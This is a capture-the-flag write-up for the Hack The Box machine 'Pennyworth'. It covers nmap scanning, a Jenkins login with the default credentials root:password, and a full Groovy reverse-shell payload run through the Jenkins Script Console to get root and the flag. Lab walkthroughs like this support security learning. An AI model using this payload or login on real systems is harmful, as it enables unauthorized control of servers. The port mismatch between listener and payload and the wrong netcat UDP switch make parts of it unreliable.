 # Pennyworth

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. What does the acronym CVE stand for?

> Common Vulnerabilities and Exposures

#### 2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

> Confidentiality, Integrity, Availability

#### 3. What is the version of the service running on port 8080?

```sh
$ nmap -A -T4 10.129.183.181
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 21:16 CET
Nmap scan report for 10.129.183.181
Host is up (0.091s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.55 seconds
```

> Jetty 9.4.39.v20210325

#### 4. What version of Jenkins is running on the target?

We can login on `http://10.129.183.181:8080` with default `Jenkins` credentials `root:password`:

![login](./login.jpg)

> 2.289.1

#### 5. What type of script is accepted as input on the Jenkins Script Console?

> Groovy

#### 6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

> cmd.exe

#### 7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

> ifconfig

#### 8. What switch should we use with netcat for it to use UDP transport mode?

> -U

#### 9. What is the term used to describe making a target host initiate a connection back to the attacker host?

> reverse shell

#### Submit root flag

First, set up our `netcat` listener:

```sh
$ nc -l 9001
```

Then we need to execute [Groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy) payload to get the reverse shell:

```sh
String host="{your_IP}";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Under `http://10.129.183.181:8080/script`:

![script](./script.jpg)

And we got the shell:

```sh
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```

## Final Flag

> 9cdfb439c7876e703e307864c9167a15

*Created by [bu19akov](https://github.com/bu19akov)*
